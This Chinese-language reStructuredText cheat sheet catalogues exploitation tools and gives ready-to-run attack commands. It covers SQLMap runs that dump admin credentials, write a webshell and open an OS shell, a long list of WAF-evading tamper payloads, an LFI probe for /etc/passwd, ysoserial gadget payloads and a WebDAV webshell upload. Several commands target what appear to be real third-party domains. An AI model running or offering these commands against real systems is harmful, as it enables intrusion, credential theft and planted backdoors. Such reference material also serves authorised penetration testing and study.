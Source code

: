 漏洞利用
========================================

漏洞查询
----------------------------------------
- searchsploit
	+ ``更新：searchsploit -u`` 
	+ ``poc位置：linux/remote/13853.pl``
	+ ``下载：searchsploit -m php/webapps/7185.php`` 

web代理
----------------------------------------
- burpsuite
	+ 插件收录：https://github.com/Prodject/BurpSuite-collections
	+ Shiro插件：https://github.com/pmiaowu/BurpShiroPassiveScan
	+ J2EE插件：https://github.com/ilmila/J2EEScan
	+ wooyun漏洞插件：https://github.com/boy-hack/wooyun-payload
	+ Struts2-RCE: https://github.com/prakharathreya/Struts2-RCE
	+ Fastjson：https://github.com/Maskhe/FastjsonScan
	+ spring扫描：https://github.com/metaStor/SpringScan
	+ log4j2Scan：https://github.com/whwlsfb/Log4j2Scan
- Yakit
	+ 项目地址：``https://github.com/yaklang/yakit``
	+ Burpsuite 的年轻中国挑战者。

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
----------------------------------------
- SQLMap
	+ 默认选择不询问用户输入
		- ``--batch``
	+ 显示注入详细信息
		- ``-v``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		- ``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		- ``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		- ``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		- ``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		- ``–privileges``
	+ 指定注入技术
		- ``--technique B/T/E/U/S``，分别为布尔注入，时间盲注，报错注入，联合查询注入，堆查询注入
	+ POST注入
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		- ``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		- ``--current-db`` 
	+ 读取与写入文件
		- 前提：首先找需要网站的物理路径，其次需要有可写或可读权限.
		- 读取文件：``sqlmap -u "http:/192.168.3.2/Less-1/?id=1" --file-read "C:/post.txt"``
		- 写入文件：``sqlmap -r "c:\request.txt" –dbms mysql --file-dest "c:\www\webshell.php" --file-write "f:\local.php"``
	+ 执行命令
		- ``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		- ``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
	+ tamper脚本
		::
		
			注：可以同时使用多个脚本，tamper存储在/usr/share/sqlmap/tamper下。
			apostrophemask.py
			适用数据库：ALL
			作用：将引号替换为utf-8，用于过滤单引号
			使用脚本前：tamper("1 AND '1'='1")
			使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

			base64encode.py
			适用数据库：ALL
			作用：替换为base64编码
			使用脚本前：tamper("1' AND SLEEP(5)#")
			使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

			multiplespaces.py
			适用数据库：ALL
			作用：围绕sql关键字添加多个空格
			使用脚本前：tamper('1 UNION SELECT foobar')
			使用脚本后：1 UNION SELECT foobar

			space2plus.py
			适用数据库：ALL
			作用：用加号替换空格
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT+id+FROM+users

			nonrecursivereplacement.py
			适用数据库：ALL
			作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
			使用脚本前：tamper('1 UNION SELECT 2--')
			使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

			space2randomblank.py
			适用数据库：ALL
			作用：将空格替换为其他有效字符
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Did%0DFROM%0Ausers

			unionalltounion.py
			适用数据库：ALL
			作用：将union allselect 替换为unionselect
			使用脚本前：tamper('-1 UNION ALL SELECT')
			使用脚本后：-1 UNION SELECT

			securesphere.py
			适用数据库：ALL
			作用：追加特定的字符串
			使用脚本前：tamper('1 AND 1=1')
			使用脚本后：1 AND 1=1 and '0having'='0having'

			space2dash.py
			适用数据库：ALL
			作用：将空格替换为--，并添加一个随机字符串和换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

			space2mssqlblank.py
			适用数据库：Microsoft SQL Server
			测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005
			作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Eid%0DFROM%07users

			between.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：用NOT BETWEEN 0 AND #替换>
			使用脚本前：tamper('1 AND A > B--')
			使用脚本后：1 AND A NOT BETWEEN 0 AND B--

			percentage.py
			适用数据库：ASP
			测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
			作用：在每个字符前添加一个%
			使用脚本前：tamper('SELECT FIELD FROM TABLE')
			使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

			sp_password.py
			适用数据库：MSSQL
			作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password
			使用脚本前：tamper('1 AND 9227=9227-- ')
			使用脚本后：1 AND 9227=9227-- sp_password

			charencode.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）
			使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
			使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

			randomcase.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：随机大小写
			使用脚本前：tamper('INSERT')
			使用脚本后：INseRt

			charunicodeencode.py
			适用数据库：ASP、ASP.NET
			测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
			作用：适用字符串的unicode编码
			使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
			使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

			space2comment.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：将空格替换为/**/
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT/**/id/**/FROM/**/users

			equaltolike.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
			作用：将=替换为LIKE
			使用脚本前：tamper('SELECT * FROM users WHERE id=1')
			使用脚本后：SELECT * FROM users WHERE id LIKE 1

			equaltolike.py
			测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：将>替换为GREATEST，绕过对>的过滤
			使用脚本前：tamper('1 AND A > B')
			使用脚本后：1 AND GREATEST(A,B+1)=A

			ifnull2ifisnull.py
			适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
			测试通过数据库：MySQL 5.0 and 5.5
			作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤
			使用脚本前：tamper('IFNULL(1, 2)')
			使用脚本后：IF(ISNULL(1),2,1)

			modsecurityversioned.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.0
			作用：过滤空格，使用mysql内联注释的方式进行注入
			使用脚本前：tamper('1 AND 2>1--')
			使用脚本后：1 /*!30874AND 2>1*/--

			space2mysqlblank.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.1
			作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Bid%0DFROM%0Cusers

			modsecurityzeroversioned.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.0
			作用：使用内联注释方式（/*!00000*/）进行注入
			使用脚本前：tamper('1 AND 2>1--')
			使用脚本后：1 /*!00000AND 2>1*/--

			space2mysqldash.py
			适用数据库：MySQL、MSSQL
			作用：将空格替换为 -- ，并追随一个换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1--%0AAND--%0A9227=9227

			bluecoat.py
			适用数据库：Blue Coat SGOS
			测试通过数据库：MySQL 5.1,、SGOS
			作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换=
			使用脚本前：tamper('SELECT id FROM users where id = 1')
			使用脚本后：SELECT%09id FROM users where id LIKE 1

			versionedkeywords.py
			适用数据库：MySQL
			测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
			作用：注释绕过
			使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
			使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

			halfversionedmorekeywords.py
			适用数据库：MySQL < 5.1
			测试通过数据库：MySQL 4.0.18/5.0.22
			作用：在每个关键字前添加mysql版本注释
			使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
			使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa


			space2morehash.py
			适用数据库：MySQL >= 5.1.13
			测试通过数据库：MySQL 5.1.41
			作用：将空格替换为#，并添加一个随机字符串和换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

			apostrophenullencode.py
			适用数据库：ALL
			作用：用非法双字节Unicode字符替换单引号
			使用脚本前：tamper("1 AND '1'='1")
			使用脚本后：1 AND %00%271%00%27=%00%271

			appendnullbyte.py
			适用数据库：ALL
			作用：在有效载荷的结束位置加载null字节字符编码
			使用脚本前：tamper('1 AND 1=1')
			使用脚本后：1 AND 1=1%00

			chardoubleencode.py
			适用数据库：ALL
			作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
			使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
			使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

			unmagicquotes.py
			适用数据库：ALL
			作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格
			使用脚本前：tamper("1' AND 1=1")
			使用脚本后：1%bf%27 AND 1=1--

			randomcomments.py
			适用数据库：ALL
			作用：用注释符分割sql关键字
			使用脚本前：tamper('INSERT')
			使用脚本后：I/**/N/**/SERT

- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
----------------------------------------
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
----------------------------------------
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
----------------------------------------
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
----------------------------------------
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
----------------------------------------
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
----------------------------------------
- `commix <https://github.com/commixproject/commix>`_

LFI
----------------------------------------
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

DNS 隧道
----------------------------------------
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
----------------------------------------
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
----------------------------------------
+ php序列化
	- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
+ java序列化工具
	- Ysomap
		+ 地址：``https://github.com/wh1t3p1g/ysomap``
		+ 帮助：``https://github.com/wh1t3p1g/ysomap/wiki/YSOMAP%E9%A3%9F%E7%94%A8%E6%8C%87%E5%8C%97``
	- java ysoserial：``https://github.com/frohoff/ysoserial``
	- JRE8u20 RCE Gadget：``https://github.com/pwntester/JRE8u20_RCE_Gadget``
	- Java Serialization Dumper：``https://github.com/NickstaDB/SerializationDumper``
	- gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications
+ c# .net序列化工具
	- `.net ysoserial <https://github.com/pwntester/ysoserial.net>`_
		::
		
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
			./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
			./ysoserial.exe -g ClaimsPrincipal -f BinaryFormatter -c foobar -bgc ActivitySurrogateDisableTypeCheck --minify --ust

云资产AK/SK利用
----------------------------------------
+ ``https://github.com/dark-kingA/cloudTools``

中间人攻击
----------------------------------------
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

webdav利用
----------------------------------------
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``